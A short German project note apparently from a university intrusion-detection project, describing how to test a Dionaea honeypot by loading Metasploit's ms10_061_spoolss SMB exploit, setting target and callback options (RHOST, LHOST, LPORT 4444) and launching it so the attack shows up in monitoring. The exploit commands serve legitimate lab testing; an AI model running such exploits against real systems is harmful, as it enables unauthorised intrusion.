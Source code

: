 Bezogen auf diesen Issue: https://git.informatik.uni-hamburg.de/iss/mp-ids/issues/132

Um die da beschriebene Sicherheitslücke zu testen, muss zunächst sichergestellt
werden, dass der Dionaea-Container den Port 445 nach außen hin exposed, damit
man da angreifen kann.

Dann Metasploit installieren. Die kostenlose Basisversion reicht dazu aus, bei
Arch Linux gibt's die im AuR.

Anschließend im Verzeichnis die `msfconsole` starten. Mit
`use exploits/windows/smb/ms10_061_spoolss` kann dann der Exploit geladen
werden. Danach die Optionen setzen:
`set RPORT 445`
`set PNAME XPSPrinter`
`set RHOST 127.0.01`
`set EXITFUNC process`
`set LHOST 172.17.0.2`
`set LPORT 4444`

Dann sollte alles bereit sein und man kann mit `exploit` den Angriff starten,
der nach ein paar Sekunden auch im CIM angezeigt werden sollte.